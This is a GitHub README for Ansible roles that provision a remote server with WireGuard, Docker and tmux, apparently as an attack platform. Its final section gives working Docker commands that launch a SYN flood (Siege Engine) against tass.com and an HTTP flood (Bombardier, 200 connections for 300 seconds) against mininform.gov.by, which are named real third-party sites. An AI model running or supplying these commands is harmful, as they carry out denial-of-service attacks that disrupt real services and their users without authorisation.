 - [Important](#important)
- [Overview](#overview)
  - [Details](#details)
- [Install](#install)
  - [Deps](#deps)
  - [Install Ansible](#install-ansible)
- [Run](#run)
  - [Digital ocean](#digital-ocean)
- [Use](#use)
  - [Wireguard](#wireguard)
  - [Use tools/get shell](#use-toolsget-shell)
  - [Siege Engine](#siege-engine)
  - [Bombardier](#bombardier)

# Important
* Tested on Ubuntu 20.04
* For now supported SSH keys only
* PRs are welcome

# Overview
Sometimes we may need good internet channel, especially since Feb 24. There may be no good internet channel or no access to the VPN. Solution to it is to set up a server with tools. All you need is to create virtual server or rent physical server 

## Details
This is set ansible roles to install core tools on remote server
* Wireguard VPN, config will be fetched to local
* Docker
* tmux

# Install
## Deps
* `pip` - python package manager. Install doc can be found [here](https://www.geeksforgeeks.org/how-to-install-pip-on-windows/#:~:text=Download%20and%20Install%20pip%3A&text=Download%20the%20get%2Dpip.py,where%20the%20above%20file%20exists.&text=and%20wait%20through%20the%20installation,now%20installed%20on%20your%20system.), note, I've not tested it.
* Wireguard client, install doc can be found [here](https://www.wireguard.com/install/)
  
## Install Ansible
If you have `pip` installed, than install via pip - [reference](https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html#installing-ansible-with-pip)
In short, run 
```
python -m pip install --user ansible
```

# Run
## Digital ocean
```
export a_user="root"
export a_ip="SERVER_IP"
ansible-playbook -i "${a_ip}," -u ${a_user} -b play.yaml
```

# Use
## Wireguard

## Use tools/get shell
Ensure that you have exported variables from [Run](#run) according to your hosting provider and run following
```
ssh ${a_user}@${a_ip}
```

## Siege Engine
Tool for SYN flood, [ref](https://github.com/smok-serwis/siege-engine)
```
docker run --rm -it mack/battle-tools python3 -m siege_engine 300 tass.com
```

## Bombardier
Tool for HTTP stress
```
docker run --rm -it mack/battle-tools bombardier -c 200 -d 300s -l https://mininform.gov.by
```
